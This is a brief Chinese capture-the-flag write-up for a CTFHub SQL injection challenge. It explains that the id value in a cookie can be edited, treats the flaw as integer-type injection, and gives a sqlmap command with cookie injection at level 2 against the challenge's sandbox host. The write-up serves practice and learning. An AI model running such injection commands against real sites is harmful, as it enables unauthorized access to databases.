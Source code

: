 # CTFHUB_过滤空格

## 题目内容

![image-20210824185613162](/home/adian/note/Study_Note/网络安全/CTF/pic/18.png)

## WriteUp

cookie字段中有一个id,我们可以通过cookie editor更改内容

![image-20210824185714799](/home/adian/note/Study_Note/网络安全/CTF/pic/19.png)

剩下的过程就是整数型注入的内容了

![image-20210824185915938](/home/adian/note/Study_Note/网络安全/CTF/pic/20.png)

此题可以使用sqlmap

```
sudo sqlmap -u http://challenge-b766ef61d67cb5ca.sandbox.ctfhub.com:10800/ --cookie='id=1' --level 2
```

cookies注入需要level 2
